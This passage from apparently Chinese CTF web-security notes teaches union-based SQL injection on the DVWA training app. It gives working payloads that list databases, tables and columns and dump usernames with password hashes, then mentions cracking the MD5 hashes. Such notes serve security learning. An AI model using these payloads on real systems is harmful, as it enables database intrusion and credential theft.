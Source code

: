   + 错误结果

  ![image-20210415173957211](CTF-WEB篇.assets/image-20210415173957211.png)

  **或者直接就是不显示任何错误信息的反馈，也就是盲注**

  > ==第二步==确定所有的数据库或者当前数据库

  ~~~
  1. 'union select 1,database()#
  
  或者
  
  2.  'union select 1,schema_name from information_schema.schemata  #
  
  ~~~

  第一种结果：

![image-20210415213620616](CTF-WEB篇.assets/image-20210415213620616.png)

​		第二种结果：

​		![image-20210415213553524](CTF-WEB篇.assets/image-20210415213553524.png)

​	

> ==第三步==根据获取的数据库来确定当前数据库中所有的表

```
'union select 1,table_name from information_schema.tables where table_schema="dvwa"#
```

​		结果：获取了表的信息

![image-20210415214600606](CTF-WEB篇.assets/image-20210415214600606.png)

> ==第四步==根据获取的表来查看表中所含的字段信息

~~~
'union select 1,column_name from information_schema.columns where table_name="users"#
~~~

结果：获取了字段的信息

![image-20210415215042015](CTF-WEB篇.assets/image-20210415215042015.png)

> ==第五步==根据获取的字段信息去获取字段内容值

~~~
'union select 1, concat(user,0x3a,password) from users #
~~~

结果：获取了表中所有某些字段的内容。**注：0x3a代表的字符是冒号":"**

![image-20210415215546445](CTF-WEB篇.assets/image-20210415215546445.png)

最终获取了想要获得的用户账号密码，使用MD5撞库解密就可以了。

